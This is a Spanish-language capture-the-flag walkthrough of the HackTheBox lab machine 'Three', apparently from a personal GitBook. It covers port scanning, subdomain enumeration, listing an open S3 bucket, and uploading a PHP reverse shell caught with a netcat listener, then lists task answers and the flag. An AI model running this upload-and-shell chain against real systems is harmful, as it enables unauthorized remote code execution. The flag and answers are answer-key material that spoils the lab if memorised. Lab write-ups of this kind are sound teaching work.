 # Three

### 1. 📝 **Introducción**

* **Nivel de Dificultad**: Muy fácil.
* **Tags:**&#x20;
  * **Cloud**: Entorno de computación basado en servidores remotos.
  * **Custom Applications**: Aplicaciones desarrolladas para necesidades específicas.
  * **AWS**: Plataforma de servicios en la nube de Amazon.
  * **Reconnaissance**: Fase de recopilación de información en pruebas de seguridad.
  * **Web Site Structure Discovery**: Técnica para identificar la estructura de un sitio web.
  * **Bucket Enumeration**: Proceso de identificar y listar buckets en almacenamiento en la nube.
  * **Arbitrary File Upload**: Vulnerabilidad que permite la carga de archivos no autorizados.
  * **Anonymous/Guest Access**: Acceso sin autenticación a recursos o servicios.

### 2. 🛠️ **Entorno**

Nos descargamos nuestra VPN y nos conectamos.

```
sudo openvpn nombre_del_archivo.vpn
```

Iniciamos la máquina y verificamos la conexión.

```bash
ping -c 1 10.129.126.143
```

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

Observamos que tenemos conexión y que es una máquina **Linux** ya que su **ttl=63**.

### 3. 🔍 **Reconocimiento**

A continuación, se realiza el comando:

```bash
nmap -p- --min-rate 5000 -sV 10.129.126.143
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

### 4. 🚪 **Acceso Inicial**

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

<figure><img src="../../../.gitbook/assets/Captura de pantalla 2024-09-01 201005.png" alt=""><figcaption></figcaption></figure>

Hicimos algunas pruebas en el sitio web y anotamos la dirección de correo electrónico que aparece en la sección de contacto: `mail@thetoppers.htb`.

Para facilitar el proceso, añadimos la siguiente entrada al archivo `/etc/hosts` en nuestro equipo:

```
10.129.126.143  thetoppers.htb
```

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Dentro de un dominio, es posible tener varios subdominios para organizar diferentes funcionalidades web sin necesidad de configurar un servidor por cada servicio. El próximo paso es identificar subdominios válidos. Para ello, utilizaremos un ataque de diccionario con la herramienta **Gobuster**.

```bash
gobuster vhost -u http://thetoppers.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain
```

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Vamos a añadir la dirección del subdominio `s3.thetoppers.htb` al archivo `/etc/hosts` utilizando un comando sencillo.

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Después de investigar en Internet, parece que el servicio se refiere a **Amazon Simple Storage Service (Amazon S3)**. En esencia, Amazon S3 es un servicio de almacenamiento en la nube que permite guardar datos en contenedores llamados **"buckets"**. Este servicio puede usarse para guardar diversos tipos de información, como copias de seguridad, archivos multimedia, páginas web estáticas, entre otros.

```
sudo apt install awscli
```

Debemos configurarlo de una forma básica por si cuela.

<figure><img src="../../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

```bash
aws s3 --endpoint=http://s3.thetoppers.htb ls s3://thetoppers.htb
```

<figure><img src="../../../.gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

Esto nos muestra dos elementos de interés y una carpeta llamada **"images"**. Además, disponemos de un servicio que nos permite descargar estos archivos de forma remota a nuestro entorno.

Si no hay una configuración que exija autorización para subir archivos, podemos intentar cargar una Reverse Shell. Sabemos que el servidor está ejecutando archivos con extensión PHP, por lo que ya sabemos cómo generar una. Para este propósito, suelo recurrir a la Reverse Shell en PHP disponible en **pentestmonkey**. Puedes encontrar el script [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Extraemos solo el contenido del payload y lo ajustamos para que funcione correctamente.

Luego, utilizamos el siguiente comando para subir un archivo desde nuestro sistema local al servicio remoto.

```bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```

Como podemos ver, hemos logrado subir archivos sin autorización al bucket del servicio web que opera en el puerto 80. Por lo tanto, si accedemos a ese archivo mientras tenemos Netcat escuchando en el puerto especificado (443), deberíamos obtener una shell.

Primero, nos ponemos a la escucha:

```bash
nc -nlvp 443
```

Luego, accedemos a `http://thetoppers.htb/shell.php`.

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

### 5. 🔑 **Captura de la Flag**

Una vez dentro investigamos distintos directorios para ver donde se encuentra la flag. La flag se encontraba en el directorio `/var/www/flag.txt`.

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

### 6. ❓Preguntas

#### Tarea 1: ¿Cuántos puertos TCP están abiertos?

**2**

_Durante un escaneo de puertos, se detectaron dos puertos TCP abiertos en el servidor._

#### Tarea 2: ¿Cuál es el dominio de la dirección de correo electrónico proporcionada en la sección "Contact" del sitio web?

**thetoppers.htb**

_En la sección de contacto de la página web, se proporciona una dirección de correo electrónico asociada al dominio `thetoppers.htb`._

#### Tarea 3:  En ausencia de un servidor DNS, ¿qué archivo de Linux podemos usar para resolver nombres de host a direcciones IP para poder acceder a los sitios web que apuntan a esos nombres de host?

**/etc/hosts**

_El archivo `/etc/hosts` en Linux se utiliza para mapear nombres de host a direcciones IP de manera manual._

#### Tarea 4: ¿Qué subdominio se descubre durante una enumeración adicional?

**s3.thetoppers.htb**

_A través de la enumeración, que es el proceso de identificar y explorar todos los subdominios y servicios relacionados con un dominio principal, se descubrió el subdominio `s3.thetoppers.htb`._

#### Tarea 5: ¿Qué servicio se está ejecutando en el subdominio descubierto?

**Amazon S3**

_Amazon S3 (Simple Storage Service) es un servicio de almacenamiento en la nube que permite almacenar y recuperar cualquier cantidad de datos en cualquier momento._

#### Tarea 6: ¿Qué utilidad de línea de comandos se puede usar para interactuar con el servicio que se ejecuta en el subdominio descubierto?

**awscli**

_`awscli` es una herramienta de línea de comandos que permite a los usuarios interactuar con los servicios de Amazon Web Services (AWS), incluidos S3, EC2, y más. Con `awscli`, los usuarios pueden realizar acciones como listar archivos, subir y descargar datos, y configurar permisos, todo desde la terminal._

#### Tarea 7: ¿Qué comando se utiliza para configurar la instalación de AWS CLI?

**aws configure**

_El comando `aws configure` se utiliza para configurar las credenciales necesarias para interactuar con los servicios de AWS a través de `awscli`._

#### Tarea 8: ¿Cuál es el comando utilizado por la utilidad mencionada para listar todos los buckets S3?

**aws s3 ls**

_El comando `aws s3 ls` se usa para listar todos los buckets S3 asociados con las credenciales configuradas en `awscli`._

#### Tarea 9: Este servidor está configurado para ejecutar archivos escritos en qué lenguaje de scripting web?

**php**

_El servidor web está configurado para ejecutar archivos en PHP, un lenguaje de scripting ampliamente utilizado para el desarrollo de aplicaciones web dinámicas._

#### Tarea 10: Enviar Flag

a980d99281a28d638ac68b9bf9453c2b

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

